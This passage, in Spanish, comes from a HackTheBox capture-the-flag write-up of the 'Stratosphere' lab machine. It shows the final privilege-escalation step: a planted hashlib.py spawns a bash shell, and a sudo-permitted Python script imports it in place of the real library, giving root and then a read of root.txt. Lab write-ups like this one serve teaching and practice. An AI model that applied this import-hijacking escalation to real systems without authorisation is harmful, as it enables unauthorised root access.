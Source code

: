 * * *

Enumerando privilegios de sudo encontramos que tenemos capacidad de ejecución como root del script `test.py`

```bash
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

Obsevando el script vemos que importa la librería `hashlib`. Si creamos un `hashlib.py` en el mismo directorio donde nos econtramos, python importará este módulo en lugar del `haslib` real y ejecutará su contenido

```bash
richard@stratosphere:~$ ls
Desktop  hashlib.py  test.py  user.txt
richard@stratosphere:~$ cat hashlib.py 
import pty

pty.spawn("/bin/bash")
richard@stratosphere:~$ sudo /usr/bin/python3 /home/richard/test.py
root@stratosphere:/home/richard# whoami
root
root@stratosphere:/home/richard# cat /root/root.txt 
71d521e4d677bd3ac***************
```

Hemos completado la máquina **Stratosphere** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Stratosphere/pwned.png">
